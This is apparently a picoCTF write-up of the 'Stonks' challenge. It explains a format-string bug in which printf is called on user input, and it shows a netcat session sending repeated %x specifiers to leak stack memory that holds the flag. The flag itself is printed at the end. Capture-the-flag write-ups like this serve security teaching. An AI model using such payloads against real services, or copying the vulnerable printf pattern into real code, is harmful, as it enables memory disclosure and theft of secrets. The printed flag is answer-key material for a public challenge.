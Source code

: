 # Stonks

- [Description](#description)
- [Approach](#approach)
- [Flag](#flag)

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

## Approach

Analysing the code, it appears that the flag is being stored in `api_buf` variable inside the `buy_stonks` function. To read this local variable. there is only 1 location for my input to be read.

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

With the vulnerable `printf` function, we can make use of string formatters to read values from the stack, which will also store the flag in the `api_buf` variable. `%x` is a type of string formatter for hexadecimal representation. Sending many `%x` will allow me to read values from the stack, represented in hexdecimal. 

```
$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
97ad450804b00080489c3f7f87d80ffffffff197ab160f7f95110f7f87dc7097ac180197ad43097ad4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ffee007d
```

Converting the result from hexadecimal to ASCII using [Cyberchef](https://cyberchef.org/#recipe=From_Hex('Auto')&input=OTdhZDQ1MDgwNGIwMDA4MDQ4OWMzZjdmODdkODBmZmZmZmZmZjE5N2FiMTYwZjdmOTUxMTBmN2Y4N2RjNzA5N2FjMTgwMTk3YWQ0MzA5N2FkNDUwNmY2MzY5NzA3YjQ2NTQ0MzMwNmM1ZjQ5MzQ1Zjc0MzU2ZDVmNmM2YzMwNmQ1Zjc5NWY3OTMzNmU2MjYzMzc2MzY1NjE2MzM2ZmZlZTAwN2Q), it seems that I need to swap the endianness to obtain the flag. 

<p align="center">
  <img src="https://raw.githubusercontent.com/DarrenPea/picoCTF_writeups/refs/heads/main/picoCTF-2021/Binary-Exploitation/Stonks/img/endian.png" />
</p>

## Flag

`picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}`